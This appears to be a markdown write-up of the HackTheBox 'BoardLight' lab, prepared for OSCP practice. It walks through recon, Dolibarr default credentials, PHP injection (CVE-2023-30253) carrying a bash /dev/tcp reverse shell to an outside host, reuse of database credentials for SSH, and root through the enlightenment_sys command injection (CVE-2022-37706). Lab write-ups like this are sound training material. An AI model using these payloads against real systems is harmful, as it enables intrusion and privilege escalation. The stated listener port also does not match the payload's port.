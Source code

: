 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)
- **Exploits Used**:
  - Default Dolibarr credentials 🆔  
  - PHP code injection via **CVE-2023-30253** 🔓  
  - SSH login with config‐extracted creds 🔑  
  - Local root via **CVE-2022-37706** (Enlightenment WM) 👑  

---

## 🕵️ Recon

```bash
nmap -p- --min-rate 10000 10.10.11.11 -oA boardlight
```

```bash
nmap -p 22,80 -sCV 10.10.11.11 -oA boardlight-scv
```

- **[SSH](SSH)** (22)  
- **[HTTP](HTTP)** (80) → Apache 2.4.41 on Ubuntu  
- Webroot hosts **Dolibarr v17.0.0** at `crm.board.htb`

# Directory / subdomain fuzzing
```bash
feroxbuster -u http://10.10.11.11 -x php
```

```bash
ffuf -u http://10.10.11.11 -H "Host: FUZZ.board.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all
```
### → found crm.board.htb
---

## 1) 💥 Foothold as www‑data

### 1. Login to Dolibarr CRM

- Browse to http://crm.board.htb/
- **Default creds**: `admin` / `admin`

### 2. Identify PHP injection (CVE-2023-30253)

- Create a new **Website → Page**  
- Save content containing `<?Php phpinfo(); ?>`  
- “Show dynamic content” toggle must be enabled to execute

### 3. Get reverse shell

```php
<?Php system('bash -i >& /dev/tcp/10.10.14.13/6969 0>&1'); ?>
```

- Save & preview → shell lands as `www-data` on port 443  

```bash
# Upgrade shell
script /dev/null -c bash
```

---

## 2) Foothold as www‑data [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

# On our local machine
```

nc -lvnp 9001
```

# On the victim machine
```

python3 exploit.py http://crm.board.htb admin admin 10.10.14.28 9001
```

## 🐚 Pivot as larissa

### 1. Dolibarr config reveals DB creds

### /var/www/html/crm.board.htb/htdocs/conf/conf.php
```php
$dolibarr_main_db_user = 'dolibarrowner';
$dolibarr_main_db_pass = 'serverfun2$2023!!';
```

### 2. SSH as larissa

```bash
sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb
```

- **User flag**:

```bash
cat ~/user.txt
# cbcdd575************************
```

---

## 🚀 Privilege Escalation to root

### 1. Enumerate SUID binaries
#### /usr/lib/.../enlightenment_sys (setuid root)

```bash
find / -perm -4000 2>/dev/null | grep enlightenment_sys
```

### 2. Exploit CVE-2022-37706

```bash
# Prepare payload
mkdir -p /tmp/net
mkdir -p "/tmp/;/tmp/infinit3i"
echo "/bin/bash" > /tmp/infinit3i
chmod +x /tmp/infinit3i
```
# Trigger command injection
```bash
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/infinit3i" /tmp///net
```

---

## 🛠 Tools & References

- **SMB & SSH**: `nmap`, `sshpass`, `feroxbuster`, `ffuf`  
- **Dolibarr**: Default creds + page editor  
- **CVE-2023-30253**: PHP injection in Dolibarr → [Swascan writeup](https://swascan.com/blog-dolibarr-vulnerabilities/)  
- **CVE-2022-37706**: Enlightenment WM → [GitHub POC](https://github.com/phra/Enlightenment-CVE-2022-37706-poc)  